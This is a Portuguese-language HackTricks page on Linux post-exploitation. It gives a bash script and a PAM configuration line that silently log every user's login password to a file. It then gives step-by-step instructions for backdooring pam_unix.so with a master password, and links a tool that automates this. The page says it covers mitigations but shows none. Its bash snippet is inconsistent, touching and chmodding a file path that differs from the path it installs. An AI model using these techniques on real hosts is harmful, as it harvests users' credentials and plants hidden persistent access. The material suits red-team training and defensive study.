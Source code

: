 # Pós-Exploração no Linux

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
{% endhint %}

## Capturando Senhas de Logon com PAM

Vamos configurar um módulo PAM para registrar cada senha que cada usuário utiliza para fazer login. Se você não sabe o que é PAM, confira:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Para mais detalhes, confira o [post original](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Este é apenas um resumo:

**Visão Geral da Técnica:**
Os Módulos de Autenticação Pluggable (PAM) oferecem flexibilidade na gestão da autenticação em sistemas baseados em Unix. Eles podem aumentar a segurança personalizando os processos de login, mas também representam riscos se forem mal utilizados. Este resumo descreve uma técnica para capturar credenciais de login usando o PAM, juntamente com estratégias de mitigação.

**Capturando Credenciais:**
- Um script bash chamado `toomanysecrets.sh` é criado para registrar tentativas de login, capturando a data, nome de usuário (`$PAM_USER`), senha (via stdin) e IP do host remoto (`$PAM_RHOST`) em `/var/log/toomanysecrets.log`.
- O script é tornando executável e integrado na configuração do PAM (`common-auth`) usando o módulo `pam_exec.so` com opções para rodar silenciosamente e expor o token de autenticação para o script.
- A abordagem demonstra como um host Linux comprometido pode ser explorado para registrar credenciais discretamente.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Instalando Backdoor no PAM

**Para mais detalhes, consulte o [post original](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Este é apenas um resumo:

O Módulo de Autenticação Plugável (PAM) é um sistema usado no Linux para autenticação de usuários. Ele opera em três conceitos principais: **nome de usuário**, **senha** e **serviço**. Os arquivos de configuração para cada serviço estão localizados no diretório `/etc/pam.d/`, onde bibliotecas compartilhadas lidam com a autenticação.

**Objetivo**: Modificar o PAM para permitir autenticação com uma senha específica, contornando a senha real do usuário. Isso é especialmente focado na biblioteca compartilhada `pam_unix.so` usada pelo arquivo `common-auth`, que é incluído por quase todos os serviços para verificação de senha.

### Passos para Modificar `pam_unix.so`:

1. **Localize a Diretiva de Autenticação** no arquivo `common-auth`:
- A linha responsável por verificar a senha de um usuário chama `pam_unix.so`.
2. **Modifique o Código-Fonte**:
- Adicione uma declaração condicional no arquivo de origem `pam_unix_auth.c` que concede acesso se uma senha predefinida for usada, caso contrário, ele prossegue com o processo de autenticação usual.
3. **Recompile e Substitua** a biblioteca `pam_unix.so` modificada no diretório apropriado.
4. **Teste**:
- O acesso é concedido em vários serviços (login, ssh, sudo, su, protetor de tela) com a senha predefinida, enquanto os processos de autenticação normais permanecem inalterados.

{% hint style="info" %}
Você pode automatizar esse processo com [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="/tamanho-da-imagem.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/tamanho-da-imagem.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/tamanho-da-imagem.png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/tamanho-da-imagem.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

